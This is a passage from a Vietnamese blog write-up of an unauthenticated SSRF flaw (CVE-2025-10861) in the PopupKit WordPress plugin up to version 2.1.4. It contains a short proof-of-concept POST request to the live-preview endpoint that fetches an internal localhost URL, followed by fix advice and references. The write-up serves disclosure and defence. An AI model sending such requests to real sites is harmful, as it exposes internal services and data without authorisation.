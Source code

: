 ```json {title="metadata.json"}
{
  "metadata": "Internal service data"
}
```

### Proof of Concept (PoC)

Gửi POST reuqest đến endpoint

```http
POST /wp-json/pbb/v1/live-preview HTTP/1.1
Host: localhost
...

url=http://localhost:8001/metadata
```

**Result**:

![Result](result.png "Nội dung đọc được từ local service")

## Conclusion

Phiên bản **≤ 2.1.4** của **PopupKit** có lỗ hổng **SSRF**: endpoint `/wp-json/pbb/v1/live-preview` cho phép **anonymous** gọi `fetch_external_content()` với tham số `url` từ client; hàm này dùng `wp_remote_get()` và trả về trực tiếp phần body, do đó có thể bị lợi dụng để truy vấn các dịch vụ nội bộ. Bản **2.1.5** đã chuyển sang `wp_safe_remote_get()` và giới hạn quyền truy cập (chỉ admin), giúp giảm rủi ro.

## Key takeaways

* **Cập nhật** lên **2.1.5+**.
* **Không tin URL client** — xác thực/allowlist trước khi fetch.
* **Dùng `wp_safe_remote_get()`** và kiểm tra thêm (redirects, DNS).
* **Không dùng `permission_callback => __return_true`**; giới hạn quyền.
* **Không trả nguyên body thô** nếu không cần thiết.


## References

[SSRF (Server Side Request Forgery) — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)

[ WordPress PopupKit Plugin <= 2.1.4 is vulnerable to Server Side Request Forgery (SSRF) ](https://patchstack.com/database/wordpress/plugin/popup-builder-block/vulnerability/wordpress-popup-builder-with-gamification-multi-step-popups-page-level-targeting-and-woocommerce-triggers-plugin-2-1-4-unauthenticated-server-side-request-forgery-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-27-cve-2025-10861/  

